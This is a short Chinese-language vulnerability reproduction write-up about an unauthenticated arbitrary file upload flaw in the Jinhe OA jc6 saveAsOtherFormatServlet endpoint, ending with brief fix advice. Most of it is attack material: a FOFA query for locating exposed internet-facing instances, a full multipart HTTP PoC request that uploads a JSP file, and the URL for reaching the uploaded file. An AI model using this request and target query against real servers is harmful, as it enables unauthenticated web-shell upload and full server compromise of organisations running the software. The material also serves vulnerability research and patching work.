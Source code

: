 
# 金和 OA jc6 任意文件上传漏洞复现

### 0x01 产品简介

   金和[OA](https://so.csdn.net/so/search?q=OA&spm=1001.2101.3001.7020)协同办公管理系统软件（简称金和 OA），本着简单、适用、高效的原则，贴合企事业单位的实际需求，实行通用化、标准化、智能化、人性化的产品设计，充分体现企事业单位规范管理、提高办公效率的核心思想，为用户提供一整套标准的办公自动化解决方案，以帮助企事业单位迅速建立便捷规范的办公环境。

### 0x02 漏洞概述

   金和 OA jc6 系统 saveAsOtherFormatServlet 接口处存在任意文件上传漏洞，未经身份认证的攻击者可利用此漏洞上传恶意后门文件，最终可导致服务器失陷。 

### 0x03 复现环境

FOFA：app="金和网络 - 金和 OA"

![](assets/1699929237-bda0d44f0b2dc26b3d8d4189efabcfc9.png)

### 0x04 漏洞复现 

PoC

```http
POST /jc6/servlet/saveAsOtherFormatServlet?fileName=test.jsp HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Connection: close
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="FileBlod";filename="test.jsp"
Content-Type: image/png

<% out.println("123456");%>
------WebKitFormBoundary
```

![](assets/1699929237-8f950e17d5b58994ce7fe5c1db8415a8.png)

验证 url

```http
http://your-ip/jc6/upload/gwzw/test.jsp
```

![](assets/1699929237-91cb4709862e54f0cc712da0ae9e86c1.png)

### 0x05 修复建议

  关闭互联网暴露面或设置接口访问权限

 升级至安全版本

